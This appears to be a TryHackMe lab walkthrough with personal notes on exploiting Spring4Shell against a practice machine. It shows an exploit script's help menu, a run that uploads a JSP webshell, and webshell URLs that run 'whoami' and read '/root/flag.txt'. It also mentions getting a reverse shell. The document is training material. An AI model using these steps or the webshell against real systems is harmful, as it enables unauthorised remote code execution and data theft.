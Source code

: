 **Downloading The Exploit**  

We've covered the theory, now it's time to exploit the target!

As this is a network-based exploit, you will need to use the TryHackMe AttackBox or a local VM in order to run the exploit.

Copies of the exploit code can be obtained in three places:

-   Attached to this task, accessible using the blue "Download Task Files" button.
-   On port 8080 of the target machine (`http://10.10.173.174:8080/exploit.zip`).
-   Directly on the AttackBox (`/root/Rooms/Spring4Shell/exploit.py`). This will already have been extracted from the archive for your convenience.  
    

Use whichever method is easiest to obtain a copy of the `exploit.zip` zipfile. The password for this archive is **`TryHackMe123!`**.

When you unzip the archive you should find a single Python script: `exploit.py`. This is a modified version of the proof of concept that is currently circulating online — it is slightly more user friendly than the original (obtained [here](https://github.com/BobTheShoplifter/Spring4Shell-POC)); however, you may use whichever version you wish. This task will assume that you are using the code provided.

  

**The Exploit**  

Read through the exploit code and ensure that you are happy that it does what it claims to do. You should _always_ review unknown exploits before running them.

Having satisfactorily completed our code review, let's start by taking a look at the help menu for the exploit:

Exploit Help Menu

```shell-session
user@attacker:~$ ./exploit.py --help
usage: exploit.py [-h] [-f FILENAME] [-p PASSWORD] [-d DIRECTORY] url

Spring4Shell RCE Proof of Concept

positional arguments:
  url                   Target URL

optional arguments:
  -h, --help            show this help message and exit
  -f FILENAME, --filename FILENAME
                        Name of the file to upload (Default tomcatwar.jsp)
  -p PASSWORD, --password PASSWORD
                        Password to protect the shell with (Default: thm)
  -d DIRECTORY, --directory DIRECTORY
                        The upload path for the file (Default: ROOT)
```

The script requires one argument: `url` — this specifies the target for the POST request. The other three optional arguments can be ignored in the current context.

Let's start by taking a look at the website in a browser (`http://10.10.173.174/`)  

We can easily find our target URL by checking the source code of the website homepage (`view-source:http://10.10.173.174/`).

Specifically we are looking for the "action" of the contact form (the only POST request available to us). This is found on line 20:

`<form id="contactForm" action="/" method="post">`  

The action is "`/`", meaning that our target URL will simply be: `http://10.10.173.174/`.

_**Note:** the trailing slash is very important here!_  

  

**Attack**

Time to use the exploit!

Execute the script (if you're using the AttackBox navigate to the folder /root/Rooms/spring4shell). You should receive output similar to the following:

Running the Exploit

```shell-session
user@attacker:~$ ./exploit.py http://10.10.173.174/
Shell Uploaded Successfully!
Your shell can be found at: http://10.10.173.174/tomcatwar.jsp?pwd=thm&cmd=whoami
```

A webshell should now have been uploaded!

Navigate to the link provided by the exploit to see this in action. You can change which command gets run by changing the `cmd` parameter. By default the command is `whoami`.

_**Note:** Once the exploit has been used successfully once, it cannot be used again until the application has been restarted. If you upload the webshell with the wrong name or directory path then you will need to terminate and re-deploy the target machine._  

Answer the questions below

Follow the steps in the task to exploit Spring4Shell and obtain a webshell.  

Correct Answer

**[Bonus Question: Optional]** Use your webshell to obtain a reverse/bind shell on the target.  

Correct Answer

What is the flag in `/root/flag.txt?`


In AttackBox
```shell
cd /root/Rooms/Spring4Shell/
./exploit.py http://10.10.173.174/
```

![[Pasted image 20220413191054.png]]

http://10.10.173.174/tomcatwar.jsp?pwd=thm&cmd=whoami
![[Pasted image 20220413192433.png]]

http://10.10.173.174/tomcatwar.jsp?pwd=thm&cmd=cat%20/root/flag.txt
![[Pasted image 20220413192539.png]]

